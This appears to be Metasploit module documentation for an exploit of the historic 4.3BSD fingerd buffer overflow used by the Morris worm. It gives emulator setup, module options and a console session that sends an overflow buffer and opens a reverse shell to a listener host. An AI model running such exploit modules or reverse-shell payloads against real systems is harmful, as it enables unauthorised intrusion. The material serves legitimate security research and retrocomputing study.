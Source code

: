 ## Vulnerable Application

### Description

This module exploits a stack buffer overflow in `fingerd` on 4.3BSD.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RPORT**

Set this to the target port. The default is 79 for `fingerd`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a BSD VAX payload. Currently, only
`bsd/vax/shell_reverse_tcp` is supported.

## Scenarios

### `fingerd` 5.1 on 4.3BSD

```
msf5 > use exploit/bsd/finger/morris_fingerd_bof
msf5 exploit(bsd/finger/morris_fingerd_bof) > options

Module options (exploit/bsd/finger/morris_fingerd_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   79               yes       The target port (TCP)


Payload options (bsd/vax/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85


msf5 exploit(bsd/finger/morris_fingerd_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(bsd/finger/morris_fingerd_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(bsd/finger/morris_fingerd_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 127.0.0.1:79 - Connecting to fingerd
[*] 127.0.0.1:79 - Sending 533-byte buffer
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58015) at 2020-02-06 15:45:33 -0600

who am i
nobody   tty??   Feb  6 13:45
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
